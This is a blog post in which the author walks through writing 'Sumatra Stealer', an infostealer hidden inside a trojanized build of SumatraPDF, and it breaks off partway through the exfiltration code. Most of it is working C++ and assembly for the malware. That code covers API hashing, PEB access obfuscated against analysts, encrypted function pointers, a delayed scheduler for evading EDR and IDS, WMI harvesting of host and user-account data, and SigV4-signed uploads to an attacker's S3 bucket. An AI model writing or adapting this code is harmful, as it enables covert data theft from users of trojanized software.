







+++
date = '2026-03-11T16:33:41-04:00'
draft = false
title = 'Writing an Info Stealer'
+++

### Table of Contents{id=table-of-contents}

1. Introduction
2. API Hashing
3. The Scheduler
4. WMI and JSON
5. Exfiltration
6. Trojanization

### Introduction {id=Introduction}
This infostealer is called "Sumatra Stealer" because it is a trojanized version of a software called "[SumatraPDF](https://www.sumatrapdfreader.org/free-pdf-reader)". My malware, in the form of a static library and some small modifications to the original source code, is compiled alongside the legitimate source code of SumatraPDF, making it difficult to distinguish between the two. 

The overall pipeline of my malware is as follows:
1. *After* the user takes some action, the infostealer will create and run a new thread. This will likely make it much harder for automated system to detect it. It is more likely, however, that an E2E testing framework could detect it, and manual testing almost certainly would.
3. Next it will add tasks to a very primitive scheduler. An individual task contains a WMI namespace and class.
4. A unique ID is generated for the host upon which the malware is running. This is a SHA256 hash of string containing information such as the `C:` drive's serial number.
5. The thread will then sleep for *x* seconds 
6. When the thread wakes up, it will submit a query to WMI, extracting all information contained in that specific class and namespace.
7. This data is formatted into JSON.
8. An API request is created as per Amazon's SigV4 specification.
9. Using WinHTTP (API hashed), this JSON data is uploaded to a file in an AWS S3 Bucket. The file name is in the form `{host-id}-{wmi-class}.txt`.
10. The tasks is removed and steps 4-9 are repeated until there are no tasks left.
11. *If the user closes the PDF viewer before all tasks are complete* it will close all graphical components and run in the background until completion.

Here is a complete flow chart:


### API Hashing {id=api-hashing}

In some of my previous articles, I discussed using C++'s constant expressions to encrypt data at compile time. This could then be used to load libraries or functions without having the plaintext names in the executable. However, there is a flaw: encryption is by definition reversible. Instead of encryption, we could use hashing. This method will ensure that the plaintext names are still not in the executable and cannot be reversed once the analyst discovers it. 

#### Hashing

I used FNV1A hashing because it is very simple. However, algorithms like xxhash64 (used by some implementations of `std::unordered_map`) or even a behemoth like MD5 or SHA would work just fine.

Here is my implementation of it:

```c++
constexpr uint64_t FNV1A_BASIS = 0xcbf29ce484222325;
constexpr uint64_t FNV1A_PRIME = 0x00000100000001b3;

template <std::size_t N>
constexpr uint64_t FNV1A_HASH(const char(&str)[N])
{
    uint64_t hash = FNV1A_BASIS;

    for (std::size_t i = 0; i < N - 1; i++)
        hash = (hash ^ str[i]) * FNV1A_PRIME;

    return hash;
}
```

And it would be used like this:
```c++
...
constexpr auto K32_CREATE_WAITABLE_TIMER        = FNV1A_HASH("CreateWaitableTimerW");
constexpr auto K32_WAIT_FOR_SINGLE_OBJECT       = FNV1A_HASH("WaitForSingleObject");
...
```

As a side note: this implementation is very simple and brute force-able. Something that could help prevent this would be to modify the input in some way, e.g. incrementing each character or even XOR encrypting it, then hash.

#### Loading Functions
I discussed how you could replicate the functionality of `LoadLibrary` and `GetProcAddress` in [this article](https://www.hafniumstudios.com/article/view/29b18ef7-c6a7-4cd8-80aa-d6925060694d). 

The steps include extracting a linked list of function data, then searching it. Upon re-reading it, I found that I had naively *decrypted the function name before passing it to the custom* `LoadLibrary` *function*. This is a mistake, as it could be easily intercepted by breaking on that function and inspecting the parameters. However, some debuggers like X64DBG will actually show you registers and/or stack variables right next to the actual code. 


<br>
Here is the old `GetFunctionAddress` implementation. Note the `LPCSTR` parameter.

```c++
void* GetFunctionAddress(HMODULE hModule, LPCSTR name)
{
    if(!hModule || !name)
        return nullptr;
    IMAGE_DOS_HEADER* dosHeader = (IMAGE_DOS_HEADER*)hModule;
    IMAGE_NT_HEADERS* ntHeaders = (IMAGE_NT_HEADERS*)((UINT8*)hModule + dosHeader->e_lfanew);
    IMAGE_DATA_DIRECTORY exportLocation = ntHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT];
    IMAGE_EXPORT_DIRECTORY* exports = (IMAGE_EXPORT_DIRECTORY*)((UINT8*)hModule + exportLocation.VirtualAddress);

    void* function = nullptr;

    DWORD* functionList = (DWORD*)((UINT8*)hModule + exports->AddressOfFunctions);
    DWORD* nameList     = (DWORD*)((UINT8*)hModule + exports->AddressOfNames);
    WORD* ordinalList   =  (WORD*)((UINT8*)hModule + exports->AddressOfNameOrdinals);

    for (DWORD i = 0; i < exports->NumberOfNames; i++)
    {
        
        char* curnameptr = (char*)((UINT8*)hModule + nameList[i]);
        /// VVVVVV Comparing raw strings instead of hashes
        if (strcmp(curnameptr, name) == 0)
        {
            WORD ordinal = ordinalList[i];

            function = (void*)((UINT8*)hModule + functionList[ordinal]);

            DWORD fnRVA = functionList[ordinal];

            /// detect if the address lies out side this libraries address range
            /// if so, attempt to cross load it
            if (fnRVA >= exportLocation.VirtualAddress && fnRVA < exportLocation.VirtualAddress + exportLocation.Size)
                return crossLoadFunctionRef(function);

            break;
        }
    }

    return function;

}
```
When the analyst inspects this function, they will see the function names clear as day.

API Hashing solves this by dealing only with hashes AND is much faster. Instead of comparing potentially dozens of characters (I'm looking at *you* `QueryPerformanceCounterFrequency`), we are comparing two 64 bit integers; this can be accomplished with exactly one assembly instruction and only fetches two (if even) memory addresses. On the other hand, the more naive and less secure version compares every single character and fetches multiple memory addresses, which could, although unlikely, invalidate caches, making the comparison much slower.

Therefore, instead of decrypting the function and doing a string comparison, we can hash each function name we find, and compare it to the hash of the function we are trying to extract:
```c++

void* GetFunctionAddress(HMODULE hModule, uint64_t hash)
{
    ...
    ...
    for (DWORD i = 0; i < exports->NumberOfNames; i++)
    {
        char* nameptr = (char*)((UINT8*)hModule + nameList[i]);
        /// VVVVVVVVVVVVVVVVVVVVVVVVVVVV
        if (RTFNV1AHash(nameptr) == hash)
        {
            ...
        }
    }

    return nullptr;
}
```

#### Loading Libraries

The same technique can be used to load libraries from the Process Environment Block. The process looks almost exactly the same as the old version of `LoadLibrary`. The difference being that the library names are converted into lowercase, something that should have been done in the old version.

```c++
HMODULE LoadBaseModule(uint64_t hash)
{
    const PPEB peb = GetPEBLDR(0x80);
    const PPEB_LDR_DATA ldr = peb->Ldr;

    const LIST_ENTRY* head = &ldr->InMemoryOrderModuleList;
    const LIST_ENTRY* current = head->Flink;

    while (current != head)
    {
        const PLDR_DATA_TABLE_ENTRY entry = CONTAINING_RECORD(current, LDR_DATA_TABLE_ENTRY, InMemoryOrderLinks);

        if (entry) {
            USHORT len = entry->BaseDllName.Length / sizeof(WCHAR);
            if (RTFNV1AHashW(entry->BaseDllName.Buffer, len) == hash)
            {
                return (HMODULE)entry->DllBase;
            }
        }

        current = current->Flink;
    }

    return nullptr;
}
```

Some of you may have noticed the `0x80` passed to the `GetPEBLDR` function. This is used to confuse both human and machine analysts. Some sandboxes and debuggers (like binary ninja) can single out access to the PEB very easily. They would look for a pattern like this:
```c++
mov rax gs:[0x60]
```
We can obfuscate this by not touching `gs` and not using `0x60` anywhere. I did this by subtracting `0x20` from the input (`0x80`):

```c++
PUBLIC GetPEBLDR
.code
GetPEBLDR PROC
    push rbx
    push rcx
    mov rbx, 20h
    sub rcx, rbx
    mov rax, gs:[rcx]
    pop rcx
    pop rbx
    ret
GetPEBLDR ENDP
END
```

To demonstrate the difference between raw and indirect access, I compiled this small snippet:
```c++
int main()
{
    PPEB z = (PPEB)__readgsqword(0x60);

    if (z->BeingDebugged)
        return -1;

    auto x = GetPEBLdrDirect(0x60);
    if (x->BeingDebugged)
        return -1;

    return (uintptr_t)GetPEBLDR(0x80)->BeingDebugged;
}
```

As you can see, even just indirect access can confuse disassemblers, but going the extract step to further obfuscate access can help with more advanced disassemblers (such as people).



#### Hidden Function
Smart debuggers can tell you exactly what a given function it is and what module it came from (e.g. `ntdll!CreateFile`).
This can be mitigated by obfuscating and rebuilding a function's address only when it is called. In C++, we can achieve this by creating a small wrapper class that shuffles and encrypts the function's address during construction, then rebuilds it on-demand by overloading the parenthesis operator. This is sort of how `std::function` works, minus the obfuscation.
Keys are generated dynamically by adding each byte of the function's address together. So a function at the address `0x123456` would have a key of `12` + `34` + `56`, or `0x9c`.

Note, in the following snippets, `FunctorType` is an alias for `Ret(Args...)`, where `Ret` is the return value of the function and `Args...` are its arguments.

Key Generation:
```c++
void generateKey(FunctorType f)
{
    if (!f)
        return;
    uint8_t* raw = (uint8_t*)f;
    for (int i = 0; i < 8; i++)
        m_key += raw[i];
}
```

After a key is generated, a codec is called. This will swap the first four bytes of the address with the last four, then XOR encrypt it. Due to the nature of XOR encryption, both encoding and decoding and be wrapped in a single function.

```c++
FunctorType codec(FunctorType f, bool decode = false)
{
    uint64_t addr = (uint64_t)f;

    uint64_t part1 = (addr & 0xFFFFFFFF) << 32;
    uint64_t part2 = (addr >> 32);
    uint64_t newAddr = 0;
    if (decode)
        newAddr = part2 | part1;
    else
        newAddr = part1 | part2;

    uint8_t* raw = (uint8_t*)&newAddr;


    for (int i = 0; i < 8; i++)
        raw[i] ^= m_key;

    return (FunctorType)(newAddr);
}
```

Finally we must have both a way to rebuild and call the function:
```c++
Ret operator()(Args... args)
{
    FunctorType decodedPointer = codec(m_functor, true);
    if constexpr (std::is_same_v<Ret, void>)
        decodedPointer(std::forward<Args>(args)...);
    else
        return decodedPointer(std::forward<Args>(args)...);
}
```

The `if` statement here is evaluated at compile time. If the function's return value is `void`, the snippet will not return anything. This is required to eliminate compiler errors (e.g. "can't return type 'void'").

Here is the full implementation:
<details>
<summary>HiddenFunction.h</summary>

```c++

#ifndef CHALLENGE_01_COMMON_HIDDEN_FUNCTION_H_
#define CHALLENGE_01_COMMON_HIDDEN_FUNCTION_H_

#include <cstdint>
#include <type_traits>
#include <utility>

namespace challenge01
{

template <class Signature>
class HiddenFunction;

template <class Ret, class...Args>
class HiddenFunction<Ret(Args...)>
{
public:
    using FunctorType = Ret(*)(Args...);

    HiddenFunction()
        : m_functor{ nullptr }, m_key{ 0 }
    {

    }

    HiddenFunction(FunctorType f) : m_functor(nullptr), m_key(0)
    {
        generateKey(f);
        m_functor = codec(f);
    }

    HiddenFunction(const HiddenFunction& other)
        : m_functor(other.m_functor), m_key(other.m_key)
    {
    }

    HiddenFunction(HiddenFunction&& other)
        : m_functor(std::exchange(other.m_functor, nullptr)),
          m_key(other.m_key)
    {
    }

    HiddenFunction& operator=(const HiddenFunction& other)
    {
        m_functor = other.m_functor;
        m_key = other.m_key;
        return *this;
    }

    HiddenFunction& operator=(HiddenFunction&& other)
    {
        m_functor = std::exchange(other.m_functor, nullptr);
        m_key = other.m_key;

        return *this;
    }

    Ret operator()(Args... args)
    {
        FunctorType decodedPointer = codec(m_functor, true);
        if constexpr (std::is_same_v<Ret, void>)
            decodedPointer(std::forward<Args>(args)...);
        else
            return decodedPointer(std::forward<Args>(args)...);
    }

    operator bool() const { return m_functor != nullptr; }

private:
    FunctorType codec(FunctorType f, bool decode = false)
    {
        uint64_t addr = (uint64_t)f;

        uint64_t part1 = (addr & 0xFFFFFFFF) << 32;
        uint64_t part2 = (addr >> 32);
        uint64_t newAddr = 0;
        if (decode)
            newAddr = part2 | part1;
        else
            newAddr = part1 | part2;

        uint8_t* raw = (uint8_t*)&newAddr;


        for (int i = 0; i < 8; i++)
            raw[i] ^= m_key;

        return (FunctorType)(newAddr);
    }

    void generateKey(FunctorType f)
    {
        if (!f)
            return;
        uint8_t* raw = (uint8_t*)f;
        for (int i = 0; i < 8; i++)
            m_key += raw[i];
    }


private:
    FunctorType m_functor;
    uint8_t m_key;
};


} // challenge01


#endif // CHALLENGE_01_COMMON_HIDDEN_FUNCTION_H_

```
</details>

#### API Hashing API
Here are the core API hashing function used to build the malware's internal API:

<table class="table">
    <thead>
        <tr>
            <th scope="col">Function Signature</th>
            <th scope="col">Description</th>
    </thead>
    <tbody>
        <tr>
            <th scope="row"><code>bool InitLoader(void)</code></th>
            <td>Load <code>LoadLibrary</code> using its hash. This is required in case any functions are forwarded to DLLs not in the PEB</td>
        </tr>
        <tr>
            <th scope="row"><code>HMODULE LoadBaseModule(uint64_t hash)</code></th>
            <td>Load a module from the PEB</td>
        </tr>
        <tr>
            <th scope="row"><code>void* GetFunctionAddress(HMODULE hModule, uint64_t hash)</code></th>
            <td>Search <code>hModule</code>'s export table for a function with a hash matching the one provided</td>
        </tr>
    </tbody>
</table>

The internal API is a class containing a large number of `HiddenFunction`s:

```c++
#define WIN_API_FN(x) HiddenFunction<decltype(x)>

class WinAPI 
{
public:
    static bool Load();

    static WIN_API_FN(CreateWaitableTimer) A_CreateWaitableTimer;
    static WIN_API_FN(WaitForSingleObject) A_WaitForSingleObject;
    ...

}
```

In the associated `.cpp` file, there are a TON of helper macros. While this is usually bad practice in C++ (especially C++20), I find they are extremely helpful for automation. And I'm not as concerned with abiding to best development practices when developing malware.

These macros are used for defining the static functions seen in `WinApi`:

```c++
#define DEFINE_STATIC_FUNCTION(x) decltype(WinApi::##x) WinApi::##x = nullptr;

DEFINE_STATIC_FUNCTION(A_CreateWaitableTimer);
DEFINE_STATIC_FUNCTION(A_WaitForSingleObject);

....

```
And for loading and verifying functions and libraries:

```c++
template <class FunctionType>
constexpr FunctionType LOAD_FUNCTION(HMODULE mod, uint64_t fnHash)
{
    return (FunctionType)APILoader::GetFunctionAddress(mod, fnHash);
}

#define LOAD_LIBRARY_AND_CHECK(varname, lib) HMODULE varname = APILoader::LoadBaseModule(lib); if(!varname) {     return false; }
#define LOAD_FUNCTION_AND_CHECK(fptr, mod, hash){    fptr = LOAD_FUNCTION<decltype(fptr)::FunctorType>(mod, hash);    if (!fptr)        return false;}
```

With these we can easily write the API loader:

```c++

constexpr auto LIB_K32 = FNV1A_HASH("kernel32.dll");

constexpr auto K32_CREATE_WAITABLE_TIMER        = FNV1A_HASH("CreateWaitableTimerW");
constexpr auto K32_WAIT_FOR_SINGLE_OBJECT       = FNV1A_HASH("WaitForSingleObject");
....

bool WinApi::Load()
{
    forceLibraryLink();

    LOAD_LIBRARY_AND_CHECK(kernel32, LIB_K32);
    
    LOAD_FUNCTION_AND_CHECK(A_CreateWaitableTimer,      kernel32, K32_CREATE_WAITABLE_TIMER);
    LOAD_FUNCTION_AND_CHECK(A_WaitForSingleObject,      kernel32, K32_WAIT_FOR_SINGLE_OBJECT);
    
    ....
}

```

#### Forcing Libraries into the PEB at Compile Time 

One issue I had for all of my previous malware projects is loading libraries that I don't *technically* reference in my code. Sure, they show up in the form of encrypted strings or hashes, but the compiler doesn't know that's what they are used for. 

Since I'm not technically using them, they don't show up in the import table (which is desired), but neither does the DLL containing them (which is not desired). My original solution was to encrypt the library's name and call WinAPI's `LoadLibrary` to load it. However, we can abuse the compiler to avoid that.

To force these libraries to show up, you have to reference a function within them at least once. You don't, however, need to use it:
```c++
#pragma optimize("", off)

static void forceLibraryLink()
{
    static auto winhttp = WinHttpOpen;
}

#pragma optimize("", on)
```

Normally, unused code is optimized out, but the `#pragma optimize` directives tell MSVC to not optimize this function at all whatsoever, ensuring it shows up the import table.

And voila:


#### Using the API Hashing API

The API was surprisingly simple to use. I had prototyped all of my code without, then replaced the WinAPI functions I was calling with my own obfuscated functions. For example, this
```c++
HANDLE myThread = CreateThread(
    NULL, 0, &run, NULL, 0, NULL
);
```
became
```c++
HANDLE myThread = WinApi::A_CreateThread(
    NULL, 0, &run, NULL, 0, NULL
);
```

#### API Hashing Diagram



### The Scheduler {id=scheduler}

The goal of the scheduler is to avoid detection. If the malware grabbed everything and sent it all in one fell swoop, there is a good change both EDRs and IDS' will detect it. To help avoid detection, the scheduler will wait a certain amount of time before grabbing anything. 

#### Tasks
The scheduler executes tasks containing a WMI namespace and class, it looks like this:
```c++
struct Task
{
    std::string wmiNamespace;
    std::string wmiClass;
};
```

However, to hide the names, another structure and helper function are used to XOR encrypt the names. Note, it would be possible do something similar to API hashing here. You could, for example, enumerate all namespaces, hash them, and compare them to your namespace hash. 

```c++
template <auto K, std::size_t NSLEN, std::size_t CLSLEN>
struct EncryptedTask
{
    std::array<char, NSLEN> eWmiNamespace;
    std::array<char, CLSLEN> eWmiClass;
};
template <auto Key, std::size_t NSLEN, std::size_t CLSLEN>
constexpr auto ENC_TASK(const char(&ns)[NSLEN], const char(&cls)[CLSLEN])
{
    EncryptedTask<Key, NSLEN, CLSLEN> t;
    
    t.eWmiClass = challenge01::XOR_ENC_STR<Key>(cls);
    t.eWmiNamespace = challenge01::XOR_ENC_STR<Key>(ns);

    return t;
}
```
Then `EncryptedTask`s are created like this:
```c++
constexpr auto RCM2_WUSRACCT        = ENC_TASK<156>("ROOTCIMv2", "Win32_UserAccount");
constexpr auto RCM2_WACCT           = ENC_TASK< 89>("ROOTCIMv2", "Win32_Account");
```
Each task has a different encryption key to avoid creating patterns. For example, if we used '156' as the key for each task, a pattern would emerge:

```txt
    'Win32_UserAccount' ^ 156   => CBF5F2....
    'Win32_Account' ^ 156       => CBF5F2....

    'Win32_UserAccount' ^ 156   => CBF5F2....
    'Win32_Account' ^ 89        => 0E3037....
```
Furthermore, to avoid patterns present with repeating characters (e.g. 'R**OO**T'), the encryption key is auto-incremented for each character.

#### The Scheduling Loop
Before a task is executed, a timer is set using WinAPI's Waitable Timers. This could potentially wait many hours before beginning the next task:

```c++

void Scheduler::run()
{
    while (!m_taskList.empty())
    {
        waitForNextTask();
        executeTask();
    }
}

void Scheduler::waitForNextTask()
{
    HANDLE hTimer = WinApi::A_CreateWaitableTimer(NULL, TRUE, NULL);

    LARGE_INTEGER time{};
    time.QuadPart = -static_cast<LONGLONG>(100000000LL);

    WinApi::A_SetWaitableTimer(hTimer, &time, 0, NULL, NULL, FALSE);

    WinApi::A_WaitForSingleObject(hTimer, INFINITE);

    WinApi::A_CloseHandle(hTimer);
}
```

For demonstration purposes, the malware only waits ten seconds between each tasks, but it could be exponentially larger. 

#### Executing a Task

Once the timer is up, the scheduler will execute the task. Using the WMI class, it will form a WQL query:
```C++
constexpr auto BASE_WQL_QRY  = XOR_ENC_STR<99>("SELECT * FROM ");

void Scheduler::executeTask()
{
    ...
    std::string query{};

    query += XOR_DEC_STR<99>(BASE_WQL_QRY);
    query += task.wmiClass;
    ...
}
```

Next, it will fetch and serialize the data from WMI, then upload it to the S3 bucket.

### WMI and JSON {id=wmi}
WMI is managed through two classes: `WMIInterface` and `WMIQuery`.

`WMIInterface` makes sure the environment is set up correctly for WMI by initializing COM. It will then provide a way to submit queries and returns a class representing the results. I call the class `WMIQuery` but perhaps a better name would have been `WMIResult` or `WMIQueryResult`. 

`WMIQuery` provides only an interface to serialize the results of the query into JSON. This is done very primitively using a switch statement and `std::wstringstream`. Since I wouldn't need to modify the data in any way, it was enough to just format it.
```c++
bool WMIQuery::getValue(std::wstringstream& stream, BSTR& key, VARIANT& value)
{
    
    if (value.vt == VT_NULL)
        return false;

    stream << """ << key << "" : ";

    switch (value.vt)
    {
        case VT_BSTR:
            stream << """ << value.bstrVal << """;
            break;
        case VT_UINT:
            stream << value.uintVal;
            break;
        case VT_BOOL:
            stream << value.boolVal;
            break;
        case VT_I4:
            stream << value.uiVal;
            break;
        case VT_I2:
            stream << value.iVal;
            break;
        default:
            stream << ""U: " << value.vt << """;
            break;
    }

    return true;
}
```

### Exfiltration {id=exfiltration}
Exfiltration is done with the WinHTTP library to an Amazon S3 Bucket. This section will be divided into the specifics of SigV4 signing and using WinHTTP.

#### SigV4

All API requests made to AWS must be signed in some way. For S3 the primary options are SigV4 and SigV4a. The difference between the two being the final signing method. SigV4 uses HMAC-SHA256 while SigV4a uses ECDSA. I chose SigV4 primraily because it was simpler, but also because ECDSA would introduce a lot of extra symbols in the final executable. Furthermore, I decided to implement this myself as the AWS SDK would add a lot of bloat.

You can find the SigV4 documentation [here](https://docs.aws.amazon.com/IAM/latest/UserGuide/reference_sigv-create-signed-request.html).

`SigV4Config` object must be filled out before giving it to the `SigV4Signer` object, which facilitates signing.
```c++
struct SIGv4Config
{
    std::string subresource;
    std::string_view contents;
    std::string method;
};
```

The very first step taken by the `SigV4Signer` is to generate some base headers: `host`, `x-amz-content-sha256`, and `x-amz-date`. The date MUST be in the ISO8601 format.

##### Canonical Request

The next step in SigV4 is to create and hash a canonical request. This will contain all information about your request, hashed. The format is:
```xml
<HTTPMethod>

<CanonicalURI>

<CanonicalQueryString>

<CanonicalHeaders>

<SignedHeaders>

<HashedPayload>
```
<table>
    <colgroup>
        <col style="width: 25%">
    </colgroup>
    <thead>
        <tr>
            <th scope="col">Field</th>
            <th scope="col">Description</th>
        </tr>
    </thead>
    <tbody>
        <tr>
            <th scope="row"><code>HTTPMethod</code></th>
            <td>The Method, e.g. <code>PUT</code></td>
        </tr>
        <tr>
            <th scope="row"><code>CanonicalURI</code></th>
            <td>The subresource being accessed, in this case <code>/{host-id}-{wmi-class}.txt</code></td>
        </tr>
        <tr>
            <th scope="row"><code>CanonicalQueryString</code></th>
            <td>This would be any query strings like <code>?key=value</code>. My implementation leaves this blank</td>
        </tr>
        <tr>
            <th scope="row"><code>CanonicalHeaders</code></th>
            <td>A list of headers and values required by SigV4. this includes <code>host</code> and any required <code>x-amz-*</code> headers requried by the API you are accessing</td>
        </tr>
        <tr>
            <th scope="row"><code>Signed Headers</code></th>
            <td>A colon-separated list of all headers in the <code>CanonicalHeaders</code> field. e.g. <code>host;x-amz-date;...</code></td>
        </tr>
        <tr>
            <th scope="row"><code>Hashed Payload</code></th>
            <td>In this case it would be the hashed JSON data extracted from WMI</td>
        </tr>
    </tbody>
</table>

After this has been created, it must be hashed with SHA256 and turned into a hex digest.

##### String to Sign
The string to sign will be the signature you give to AWS. It will calculate all of the things you have, and compare signatures. If they do not match, AWS will actually send you what it calculated both the canonical request and string-to-sign to be, so you can debug your code more easily. Furthermore, *it somehow lets you use HTTP*, meaning if you are debugging your release version, wherein you perhaps have disabled debug logging, you can sniff the requests with WireShark to see where you went wrong.

The string-to-sign looks like this:
```xml
<Algorithm>

<RequestDateTime>

<CredentialScope>

<HashedCanonicalRequest>
```
**Important Note**: The official AWS documentation for the string-to-sign mentions this format:
```txt
Algorithm  

RequestDateTime 

CredentialScope  

HashedCanonicalRequest
```
Do not add whitespaces before the newline or your string-to-sign will be invalid.

<table>
    <colgroup>
        <col style="width: 25%">
    </colgroup>
    <thead>
        <tr>
            <th scope="col">Field</th>
            <th scope="col">Description</th>
    </thead>
    <tbody>
        <tr>
            <th scope="row"><code>Algorithm</code></th>
            <td>This is the hashing algorithm. For SigV4 you should use <code>AWS4-HMAC-SHA256</code></td>
        </tr>
        <tr>
            <th scope="row"><code>RequestDateTime</code></th>
            <td>The date in ISO8601 format. I pulled this from the list of headers</td>
        </tr>
        <tr>
            <th scope="row"><code>Credential Scope</code></th>
            <td>This is where you will need your Access Key, so you will have to embed it in the malware somewhere. Its format is as follows: <code>ACCESS_KEY/&ltYYYMMMDDD&gt/&ltregion&gt/&ltservice&gt/aws4_request</code></td>
        </tr>
        <tr>
            <th scope="row"><code>HashedCanonicalRequest</code></th>
            <td>The hash computed in the previous step. Make sure it's a hex-digest, not a raw hash</td>
        </tr>
    </tbody>
</table>

##### Deriving a Signing Key
The signing key is derived via chain-hashing with HMAC-SHA256 (this was pulled from the official docs):
```python
DateKey = HMAC-SHA256("AWS4"+"<SecretAccessKey>", "<YYYYMMDD>")
DateRegionKey = HMAC-SHA256(<DateKey>, "<aws-region>")
DateRegionServiceKey = HMAC-SHA256(<DateRegionKey>, "<aws-service>")
SigningKey = HMAC-SHA256(<DateRegionServiceKey>, "aws4_request")
```

Here is my implementation:
```c++
SIGv4Signer::HMAC256_t
SIGv4Signer::deriveSigningKey()
{
    std::string date{};
    {
        std::size_t Toffset = m_baseDate.find('T');

        date = m_baseDate.substr(0, Toffset);
    }

    std::string baseKey = XOR_DEC_STR<234>(STR_AWS4);
    baseKey += XOR_DEC_STR<123>(S3_ACCESS_SECRET);

    HMAC256_t perpKey{};

    doHMACSHA256(
        (const uint8_t*)baseKey.c_str(), baseKey.length(),
        (const uint8_t*)date.c_str(), date.length(),
        perpKey
    );

    doHMACSHA256(
